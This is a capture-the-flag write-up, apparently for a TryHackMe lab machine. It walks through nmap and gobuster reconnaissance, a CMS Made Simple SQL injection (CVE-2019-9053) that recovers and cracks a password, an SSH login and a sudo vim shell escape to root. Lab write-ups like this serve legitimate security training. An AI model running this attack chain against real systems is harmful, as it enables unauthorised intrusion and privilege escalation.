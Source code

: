 ```yaml
---
layout: post
title: "CVE-2019-9053"
author: "Nicholas Coleman"
date: 2025-04-11
tags: tryhackme
---
```


## Breaching a Vulnerable Site

I begin by scanning the IP with nmap: 

`nmap -sC -sV -oA ctf1/scan 10.10.75.135`

Results:
```  
# Nmap 7.95 scan initiated Thu Apr 10 16:29:02 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -oA ctf1/scan 10.10.75.135
Nmap scan report for 10.10.75.135
Host is up (0.12s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT 	STATE SERVICE VERSION
21/tcp   open  ftp 	vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|  	Connected to ::ffff:10.6.25.18
|  	Logged in as ftp
|  	TYPE: ASCII
|  	No session bandwidth limit
|  	Session timeout in seconds is 300
|  	Control connection is plain text
|  	Data connections will be plain text
|  	At session startup, client count was 2
|  	vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http	Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh 	OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 10 16:29:56 2025 -- 1 IP address (1 host up) scanned in 53.75 seconds
```

From the nmap scan, we can see that there are 3 ports open: **21, 80, and 2222**. All of these can be useful for us when trying to think of ways to breach the system. The attack surface of this system is nice to work with - especially when one of the vectors is exploiting the insecure design.

The web server this machine is hosting redirects to the default Apache webpage. But this does not *necessarily* indicate the site is empty, so I decided to look deeper with gobuster to see if there was anything else hidden. **Gobuster** is really handy and easy to use, not to mention - a very fast tool.

Using this command:

`gobuster dir -u 10.10.75.135 -w directory-list-2.3-medium.txt -t 100`

Gobuster shows me that there is indeed another page with the path: `/simple`.

Navigating to /simple brings me to a website called CMS Made Simple. The version is `2.2.8`. The version of the website out in the open like this makes my job a lot easier when trying to find exploits that will work.

![CMS](/security.github.io/images/simple/cms_simple.png)

After a quick Google search, I was able to find that this version of CMS Made Simple is vulnerable to a SQL injection exploit (**CVE-2019-9053**).

https://www.exploit-db.com/exploits/46635

This SQLi Python script extracts the hashed password and cracks it, enabling access to the target system. The results were:

```  
Username: mitch  
Email: admin@admin.com  
Password: 0c01f4468bd75d7a84c7eb73846e8d96  
Cracked Password: secret  
```

Now I am able to ssh into mitch's computer using: `ssh mitch@10.10.75.135 -p 2222` with the password:

![SSH](/security.github.io/images/simple/SSH.png)

Once inside, the User flag: **user.txt** is readily available for me to capture. Easy! 

My next order of business is to see what sudo commands the users here can run. Using `sudo -l`, I am able to see that Mitch is able to run `/usr/bin/vim` as a root user without a password. 

After looking online, I found out that Vim can be used to *break out of restricted environments by spawning an interactive system shell*. This is a huge vulnerability and gives us the ability to escalate our privileges to become the root user - with this simple command: `sudo vim -c ':!/bin/sh'`.

![sudo vim](/security.github.io/images/simple/sudovim.png)

There you go - I have achieved privilege escalation. After navigating to the root directory, I was able to finally find the root flag in **root.txt**:

![final](/security.github.io/images/simple/final.png)

Whoever is running this website needs to *seriously* work on the security!
